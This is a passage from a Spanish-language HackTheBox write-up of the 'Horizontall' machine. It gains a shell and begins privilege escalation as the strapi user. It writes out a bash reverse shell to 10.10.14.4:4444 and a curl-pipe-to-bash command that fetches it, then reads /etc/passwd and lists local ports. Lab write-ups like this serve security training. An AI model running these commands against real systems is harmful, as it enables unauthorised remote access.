 ```shell
/usr/bin/cat bash.sh
/bin/bash -i >& /dev/tcp/10.10.14.4/4444 0>&1
```

Me pongo a la escucha a la par con `netcat` y ejecuto:
```shell
curl http://10.10.14.4/bash.sh |bash 
```

![](/assets/img/Anexos/Pasted%20image%2020250330162358.png)





## Escalada 
Una vez dentro estamos como el usuario **strapi** y tenemos los siguientes usuarios:
```shell
strapi@horizontall:~/myapi$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:hackthebox:/home/developer:/bin/bash
```

Viendo con `ss` tenemos los siguientes puertos corriendo en local:
```shell
strapi@horizontall:/$ ss -tuln
Netid                       State                         Recv-Q                        Send-Q                                                Local Address:Port                                               Peer Address:Port                        
tcp                         LISTEN                        0                             128                                                         0.0.0.0:22                                                      0.0.0.0:*                           
tcp                         LISTEN                        0                             128                                                       127.0.0.1:1337                                                    0.0.0.0:*                           
tcp                         LISTEN                        0                             128                                                       127.0.0.1:8000                                                    0.0.0.0:*                           
tcp                         LISTEN                        0                             80                                                        127.0.0.1:3306                                                    0.0.0.0:*                           
tcp                         LISTEN                        0                             128                                                         0.0.0.0:80                                                      0.0.0.0:*                           
tcp                         LISTEN                        0                             128                                                            [::]:22                                                         [::]:*                           
tcp                         LISTEN                        0                             128                                                            [::]:80     
```
